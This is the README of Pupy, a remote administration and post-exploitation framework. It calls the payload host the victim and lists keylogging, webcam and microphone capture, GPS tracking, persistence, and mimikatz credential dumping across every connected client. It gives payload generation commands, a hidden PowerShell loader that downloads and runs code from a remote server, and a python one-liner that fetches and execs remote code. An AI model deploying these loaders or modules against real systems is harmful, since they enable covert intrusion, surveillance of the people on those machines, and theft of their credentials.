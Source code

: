 **********************************************************
Pupy
**********************************************************


Pupy is an opensource multiplatform Remote Administration Tool.
Pupy can be built to a classic executable, an apk, a pure python file (that can be loaded remotely from a python one-liner), a reflective DLL ... Some of these methods does not leave any trace on disk.
Pupy can load the python interpreter from memory and load any python module remotely from memory (.py, .pyc, .pyd).
You can then access objects on the client side from the serverside transparently with the awesome rpyc library.
Pupy can be used for various purposes :

    security research
    education
    pentesting
    administration
    projects and developments around privacy in python that require very low disk footprints
    ...


Installation
================





::

  git clone https://github.com/n1nj4sec/pupy.git pupy
 cd pupy
 git submodule init
 git submodule update
 pip install -r pupy/requirements.txt
 wget https://github.com/n1nj4sec/pupy/releases/download/latest/payload_templates.txz
 tar xvf payload_templates.txz && mv payload_templates/* pupy/payload_templates/ && rm payload_templates.txz && rm -r payload_templates



Features
==========

 - Multi-platform (tested on windows xp, 7, 8, 10, kali linux, ubuntu, osx, android)
 - On windows, the Pupy payload can be compiled as a reflective DLL and the whole python interpreter is loaded from memory. Pupy does not touch the disk :)
 - pupy can also be packed into a single .py file and run without any dependencies other that the python standard library on all OS
     - pycrypto gets replaced by pure python aes && rsa implementations when unavailable
 - Pupy can reflectively migrate into other processes
 - Pupy can remotely import, from memory, pure python packages (.py, .pyc) and compiled python C extensions (.pyd, .so). The imported python modules do not touch the disk.
 - Pupy is easily extensible, modules are quite simple to write, sorted by os and category.
 - A lot of awesome modules are already implemented!
 - Pupy uses [rpyc](https://github.com/tomerfiliba/rpyc) and a module can directly access python objects on the remote client
   - We can also access remote objects interactively from the pupy shell and you even get auto-completion of remote attributes!
 - Communication transports are modular, stackable and awesome. You could exfiltrate data using HTTP over HTTP over AES over XOR. Or any combination of the available transports !
 - Pupy can communicate using obfsproxy [pluggable transports](https://www.torproject.org/docs/pluggable-transports.html.en)
 - All the non interactive modules can be dispatched to multiple hosts in one command
 - Commands and scripts running on remote hosts are interruptible
 - Auto-completion for commands and arguments
 - Custom config can be defined: command aliases, modules automatically run at connection, ...
 - Interactive python shells with auto-completion on the all in memory remote python interpreter can be opened
 - Interactive shells (cmd.exe, /bin/bash, ...) can be opened remotely. Remote shells on Unix & windows clients have a real tty with all keyboard signals working fine just like a ssh shell
 - Pupy can execute PE exe remotely and from memory (cf. ex with mimikatz)
 - Pupy can generate payloads in various formats : apk,lin_x86,lin_x64,so_x86,so_x64,exe_x86,exe_x64,dll_x86,dll_x64,py,pyinst,py_oneliner,ps1,ps1_oneliner,rubber_ducky
 - Pupy can be deployed in memory, from a single command line using pupygen.py's python or powershell one-liners.
 - "scriptlets" can be embeded in generated payloads to perform some tasks "offline" without needing network connectivity (ex: start keylogger, add persistence, execute custom python script, check_vm ...)
 - tons of other features, check out the implemented modules

Implemented Transports
====================

 All transports in pupy are stackable. This mean that by creating a custom transport conf (pupy/network/transport/<transport_name>/conf.py), you can make you pupy session looks like anything. For example you could stack HTTP over HTTP over base64 over HTTP over AES over obfs3 :o)

 - rsa
 	- A layer with authentication & encryption using RSA and AES256, often stacked with other layers
 - aes
 	- layer using a static AES256 key
 - ssl (the default one)
 	- TCP transport wrapped with SSL
 - ssl_rsa
 	- same as ssl but stacked with a rsa layer
 - http
 	- layer making the traffic look like HTTP traffic. HTTP is stacked with a rsa layer
 - obfs3
 	- [A protocol to keep a third party from telling what protocol is in use based on message contents](https://gitweb.torproject.org/pluggable-transports/obfsproxy.git/tree/doc/obfs3/obfs3-protocol-spec.txt)
 	- obfs3 is stacked with a rsa layer for a better security
 - scramblesuit
 	- [A Polymorphic Network Protocol to Circumvent Censorship](http://www.cs.kau.se/philwint/scramblesuit/)
 	- scramblesuit is stacked with a rsa layer for a better security
 - udp
 	- rsa layer but over UDP (could be buggy, it doesn't handle packet loss yet)
 - other
 	- Other layers doesn't really have any interest and are given for code examples : (dummy, base64, XOR, ...)

Implemented Launchers (not up to date, cf. ./pupygen.py -h)
==========================================================

 Launchers allow pupy to run custom actions before starting the reverse connection
 - connect
 	- Just connect back
 - bind
 	- Bind payload instead of reverse
 - auto_proxy
 	- Retrieve a list of possible SOCKS/HTTP proxies and try each one of them. Proxy retrieval methods are: registry, WPAD requests, gnome settings, HTTP_PROXY env variable

Implemented Modules (not up to date)
=====================================

All platforms:
^^^^^^^^^^^^^^^^

 - command execution
 - download
 - upload
 - interactive python shell with auto-completion
 - interactive shell (cmd.exe, powershell.exe, /bin/sh, /bin/bash, ...)
 	- tty allocation is well supported on both windows and \*nix. Just looks like a ssh shell
 - shellcode exec
 - persistence
 - socks5 proxy
 - local and remote port forwarding
 - screenshot
 - keylogger
 - run the awesome credential gathering tool [LaZagne](https://github.com/AlessandroZ/LaZagne) from memory !
 - sniff tools, netcreds
 - process migration (windows & linux, not osx yet)
 - ...
 - a lot of other tools (upnp client, various recon/pivot tools using impacket remotely, ...)

Windows specific :
^^^^^^^^^^^^^^^^

 - migrate
   - inter process architecture injection also works (x86->x64 and x64->x86)
 - in memory execution of PE exe both x86 and x64!
 	- works very well with [mimitakz](https://github.com/gentilkiwi/mimikatz) :-)
 - webcam snapshot
 - microphone recorder
 - mouselogger:
 	- takes small screenshots around the mouse at each click and send them back to the server
 - token manipulation
 - getsystem
 - creddump
 - tons of useful powershell scripts
 - ...


Android specific
^^^^^^^^^^^^^^^^^^^^


 - Text to speech for Android to say stuff out loud
 - webcam snapshots (front cam & back cam)
 - GPS tracker !


Build payloads from sources
===========================

Windows EXE/Reflective DLL
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Cross-compile with WINE && VCPP

::

  cd client/sources
  ./buildenv.sh
  ./build.sh

you can also add the flag DEBUG=1 if you want the generated pupy exe to open a console and print debug tracebacks


Android APK
^^^^^^^^^^^^


pupy apk for Android is packaged with kivy and buildozer.


Step 1

follow the instructions from https://kivy.org/docs/guide/packaging-android.html to install buildozer and kivy
On Kali 2.0 I used:

::

  apt-get install python-kivy zlib1g-dev cython
  pip install buildozer

Step 2

::

  cd client/android_sources
  ./build.sh



Generate payloads
=====================

The "client" here refers to pupy's payload running on the victim, and the "server" here refers to the pupy's payload running on the attacker, independently of who initiate the connection (bind or reverse shell).

All available launchers, transports and scriptlets can be seen using the command :

::

  $ python pupygen.py -l


Launchers
^^^^^^^^^^^^

Pupy launchers is an abstraction layer to change the behavior of pupy clients before the connection starts. You can list available launchers with the command :

::

  $ python pupygen.py -h

The connect launcher doesn't do anything special before "client" connecting to the "server" using the configured transport. The bind launcher works like the connect launcher but the "server" needs to connect on the "client". The auto_proxy launcher will try to connect directly to the server, but if it fails, it will try to find the proxy configuration by various methods depending on the OS and attempt to connect using each potential proxy found.



Transport Types
^^^^^^^^^^^^^^

The transport define what protocol pupy will use to exfiltrate. Transports are usually customizable through the launcher options. The default transport used is ssl if none is supplied. Note that Pupy is compatible with obfsproxy's awesome transports like obfs3 or scramblesuit.


Generate Binaries
^^^^^^^^^^^^^^^^^^

payload.py (generated with ./pupygen.py -f py) can be run on windows, linux and osx directly. All dependencies and chosen scriptlets are embedded. However some functionalities won't work on windows like the process migration which needs the compiled binaries.



On Windows
""""""""""""

To generate binaries on windows you can use the precompiled binaries templates :

::

  $ usage: pupygen.py [-h]
                  [-f {client,py,pyinst,py_oneliner,ps1,ps1_oneliner,rubber_ducky}]
                  [-O {android,windows,linux}] [-A {x86,x64}] [-S] [-o OUTPUT]
                  [-D OUTPUT_DIR] [-s SCRIPTLET] [-l] [-E] [--no-use-proxy]
                  [--randomize-hash]
                  [--oneliner-listen-port ONELINER_LISTEN_PORT]
                  [--debug-scriptlets] [--debug] [--workdir WORKDIR]
                  [{bind,auto_proxy,dnscnc,connect}] ...

 ### Generate payloads for Windows, Linux, OSX and Android.

 positional arguments:
  {bind,auto_proxy,dnscnc,connect}
                        Choose a launcher. Launchers make payloads behave
                        differently at startup.
  launcher_args         launcher options

 optional arguments:
  -h, --help            show this help message and exit
  -f {client,py,pyinst,py_oneliner,ps1,ps1_oneliner,rubber_ducky}, --format {client,py,pyinst,py_oneliner,ps1,ps1_oneliner,rubber_ducky}
                        (default: client)
  -O {android,windows,linux}, --os {android,windows,linux}
                        Target OS (default: windows)
  -A {x86,x64}, --arch {x86,x64}
                        Target arch (default: x86)
  -S, --shared          Create shared object
  -o OUTPUT, --output OUTPUT
                        output path
  -D OUTPUT_DIR, --output-dir OUTPUT_DIR
                        output folder
  -s SCRIPTLET, --scriptlet SCRIPTLET
                        offline python scriptlets to execute before starting
                        the connection. Multiple scriptlets can be privided.
  -l, --list            list available formats, transports, scriptlets and
                        options
  -E, --prefer-external
                        In case of autodetection prefer external IP
  --no-use-proxy        Don't use the target's proxy configuration even if it
                        is used by target (for ps1_oneliner only for now)
  --randomize-hash      add a random string in the exe to make it's hash
                        unknown
  --oneliner-listen-port ONELINER_LISTEN_PORT
                        Port used by oneliner listeners ps1,py (default: 8080)
  --debug-scriptlets    don't catch scriptlets exceptions on the client for
                        debug purposes
  --debug               build with the debug template (the payload open a
                        console)  --workdir WORKDIR     Set Workdir (Default = current workdir)


::

  $ ./pupygen.py connect --host 192.168.2.131:443
 binary generated with config :
 OUTPUT_PATH = /opt/pupy/pupy/pupyx86.exe
 LAUNCHER = 'connect'
 LAUNCHER_ARGS = ['--host', '192.168.2.131:443']
 SCRIPTLETS = []


Another option is to use the powershell oneliner format to deploy pupy from memory using powershell :

::

  $ ./pupygen.py -f ps1_oneliner connect --host 192.168.0.1:443 --transport http
 [+] copy/paste this one-line loader to deploy pupy without writing on the disk :
  ---
 powershell.exe -w hidden -c "iex(New-Object System.Net.WebClient).DownloadString('http://192.168.0.1:8080/p')"
  ---
 [+] Started http server on 0.0.0.0:8080
 [+] waiting for a connection ...


pupygen.py can embed offline scriptlets with the exe/dll you generate. These scripts will be executed before connecting back and can be used to add some offline capabilities like adding persistence through registry, checking for sandboxed environment, ... etc




On Android
"""""""""""

::

  $ ./pupygen.py -O android connect --host 192.168.2.131:443
 [+] packaging the apk ... (can take a 10-20 seconds)
 ...
 jar signed.

 binary generated with config :
 OUTPUT_PATH = /opt/pupy/pupy.apk
 LAUNCHER = 'connect'
 LAUNCHER_ARGS = ['--host', '192.168.2.131:443']
 SCRIPTLETS = []



On Linux & OSX
"""""""""""""

There is multiple options. The first one is generate a pure python payload and the victim needs to have installed python:

::

  $ ./pupygen.py -f py connect --transport ssl --host 192.168.1.1
 [+] generating payload ...
 embedding /usr/local/lib/python2.7/dist-packages/rpyc ...
 embedding /opt/pupy/pupy/network ...
 [+] payload successfully generated with config :
 OUTPUT_PATH = /opt/pupy/pupy/pupy_packed.py
 LAUNCHER = 'connect'
 LAUNCHER_ARGS = ['--transport', 'ssl', '--host', '192.168.1.1']
 SCRIPTLETS = []


Once the script executed on the linux/OSX host, you should have a pupy session. All non-standard dependencies are packaged inside the payload and loaded from memory.

 The same thing can be loaded remotely from a single line by using the py_oneliner format. This method has the advantage of not leaving any trace on the disk and can be deployed easily from a ssh shell using ssh tunnels

 ::

   $ ./pupygen.py -f py_oneliner connect --transport ssl --host 192.168.1.1

then execute follow the instructions. Your python one-liner should looks like :

::

  python -c 'import urllib;exec urllib.urlopen("http://X.X.X.X:8080/index").read()'


For linux another option is to generate an ELF with

::

  ./pupygen.py -f client -O linux -A x64 -o linux (or ./pupygen.py -f client -O linux -A x64 -o linux connect --host 192.168.xxx.xxx:443 -t ssl)


The third option is use pyinstaller to package a linux/OSX payload to create a standalone binary. This method has the advantage to work even if there is no recent/compatible python version installed on the host. You may need the following hidden imports in your .spec file :


* rpyc
* pycrypto
* rsa
* pyasn1
* uuid
* pty
* tty


Setting up the server
=======================


Using docker
^^^^^^^^^^^^

::

  mkdir /tmp/pupy
 docker run -d --name pupy -p 2022:22 -p 8080:8080 -v /tmp/pupy:/projects alxchk/pupy:unstable
 mkdir -p /tmp/pupy/keys
 cat ~/.ssh/id_rsa.pub >/tmp/pupy/keys/authorized_keys
 ssh -p 2022 pupy@127.0.0.1


The server
^^^^^^^^^^^^

To start the server, you can simply start pupysh.py on the correct port with the correct transport

::

  ./pupysh.py -h
 usage: pupysh [-h] [--log-lvl {DEBUG,INFO,WARNING,ERROR}] [--version]
                  [--transport {obfs3,tcp_ssl_proxy,tcp_cleartext,tcp_ssl,tcp_base64,scramblesuit,tcp_cleartext_proxy}]
                  [--port PORT]

 Pupy console

 optional arguments:
  -h, --help            show this help message and exit
  --log-lvl {DEBUG,INFO,WARNING,ERROR}, --lvl {DEBUG,INFO,WARNING,ERROR}
                        change log verbosity
  --version             print version and exit
  --transport {obfs3,tcp_ssl_proxy,tcp_cleartext,tcp_ssl,tcp_base64,scramblesuit,tcp_cleartext_proxy}
                        change the transport ! :-)
  --port PORT, -p PORT  change the listening port



The shell
=========


Find commands and modules help
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

First of all it is important to know that nearly all commands in pupy have a help builtin. So if at any moment you are wondering what a command does you can type your command followed by -h or --help

::

  sessions -h
 jobs -h
 run -h


This is even true for modules ! For example if you want to know how to use the pyexec module type :

::

  >> run pyexec -h
 usage: pyexec [-h] [--file <path>] [-c <code string>]

 execute python code on a remote system

 optional arguments:
 -h, --help            show this help message and exit
 --file <path>         execute code from .py file
 -c <code string>, --code <code string>
                      execute python oneliner code. ex : 'import
                      platform;print platform.uname()'


Use the completion !
^^^^^^^^^^^^^^^^^^^^^^

Nearly all commands and modules in pupy have custom auto-completion. So if you are wondering what you need to type just press TAB

::

  >> run
 getsystem           load_package        msgbox              ps                  shell_exec
 download            interactive_shell   memory_exec         persistence         pyexec              shellcode_exec
 exit                keylogger           migrate             port_scan           pyshell             socks5proxy
 get_info            linux_pers          mimikatz            portfwd             screenshot          upload
 getprivs            linux_stealth       mouselogger         process_kill        search              webcamsnap
 >> run load_package
 _sqlite3           linux_stealth      psutil             pupyimporter       pyshell            sqlite3
 interactive_shell  netcreds           ptyshell           pupymemexec        pywintypes27.dll   vidcap
 linux_pers         portscan           pupwinutils        pupyutils          scapy


::

  >> run pyexec -
 --code   --file   --help   -c       -h
 >> run pyexec --file /
 /bin/         /etc/         /lib/         /libx32/      /media/       /proc/        /sbin/        /sys/         /var/
 /boot/        /home/        /lib32/       /live-build/  /mnt/         /root/        /share/       /tmp/         /vmlinuz
 /dev/         /initrd.img   /lib64/       /lost+found/  /opt/         /run/         /srv/         /usr/



Escape your arguments
^^^^^^^^^^^^^^^^^^^^^^

Every command in pupy shell uses a unix-like escaping syntax. If you need a space in one of your arguments you need to put your argument between quotes.

::

  >> run shell_exec 'tasklist /V'

If you send a Windows path, you need to double the backquotes or put everything between quotes.

::

  >> run download 'C:\Windows\System32\cmd.exe'

Or

::

  >> run download C:\\Windows\\System32\\cmd.exe



Create Aliases
^^^^^^^^^^^^^^

Modules aliases can be defined in the pupy.conf file. If you define the following alias :

::

  shell=interactive_shell

running the command "shell" will be equivalent as running "run interactive_shell".

As an example, defining the following alias will add a command to kill the pupy client's process with signal 9:

::

  killme = pyexec -c 'import os;os.kill(os.getpid(),9)'



Jobs
^^^^

Jobs are commands running in the background. Some modules like socks5proxy or portfwd automatically start as jobs, but all modules can be run as jobs when used with the --bg argument.

::

  >> run --bg shell_exec 'tasklist /V'
 [%] job < shell_exec ['tasklist /V'] > started in background !


The --bg switch is typically used when you want to execute a long command/module and want the result later while having the shell still functioning.

The jobs output can be retrieved at any moment by using the jobs -p command. From the "jobs" command you can also list jobs status and kill jobs.


::

  >> jobs
 usage: jobs [-h] [-k <job_id>] [-l] [-p <job_id>]

 list or kill jobs

 optional arguments:
 -h, --help            show this help message and exit
 -k <job_id>, --kill <job_id>
 print the job current output before killing it
 -l, --list            list jobs
 -p <job_id>, --print-output <job_id>
						print a job output


Regular jobs can be set in Linux/Unix environments by running your pupysh.py script inside the Screen utility. You can then setup cronjobs to run the below command at whatever intervals you require, this essentially pastes the input after the word 'stuff' into the screen session. Replace 1674 with the ID of your screen session, the echo command is the Enter key being pressed.

::

  screen -S 1674 -X stuff 'this is an example command'$(echo -ne '\015')



Handle multiple clients connected
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

By default pupy launch every module you run on all connected clients. This allows for example to run mimikatz on all connected clients and dump passwords everywhere in one command

::

  run memory_exec /usr/share/mimikatz/Win32/mimikatz.exe privilege::debug sekurlsa::logonPasswords exit


To interact with one client, use the "sessions -i" command

::

  >> sessions -i 1
  ``` to interact with the session 1
  ```code
  sessions -i 'platform:Windows release:7'
  ``` to interact with all windows 7 only
  You can find all the available filtering parameters using the get_info module


Writing a module
====================


Writing a MsgBox module
^^^^^^^^^^^^^^^^^^^^^^

First of all write the function/class you want to import on the remote client
in the example we create the file pupy/packages/windows/all/pupwinutils/msgbox.py

::

  import ctypes
 import threading

 def MessageBox(text, title):
	t=threading.Thread(target=ctypes.windll.user32.MessageBoxA, args=(None, text, title, 0))
	t.daemon=True
	t.start()


then, simply create a module to load our package and call the function remotely

::

  from pupylib.PupyModule import *

 __class_name__="MsgBoxPopup"

 @config(cat="troll", tags=["message","popup"])
 class MsgBoxPopup(PupyModule):
	""" Pop up a custom message box """
	dependencies=["pupwinutils.msgbox"]

	def init_argparse(self):
		self.arg_parser = PupyArgumentParser(prog="msgbox", description=self.__doc__)
		self.arg_parser.add_argument('--title', help='msgbox title')
		self.arg_parser.add_argument('text', help='text to print in the msgbox :)')

	def run(self, args):
		self.client.conn.modules['pupwinutils.msgbox'].MessageBox(args.text, args.title)
		self.log("message box popped !")



and that's it, we have a fully functional module :) This module is only compatible with windows, you can check the same module in the project to see how it's implemented to manage multi-os compatibility.

::

  >> run msgbox -h
 usage: msgbox [-h] [--title TITLE] text

 Pop up a custom message box

 positional arguments:
  text           text to print in the msgbox :)

  optional arguments:
    -h, --help     show this help message and exit
    --title TITLE  msgbox title
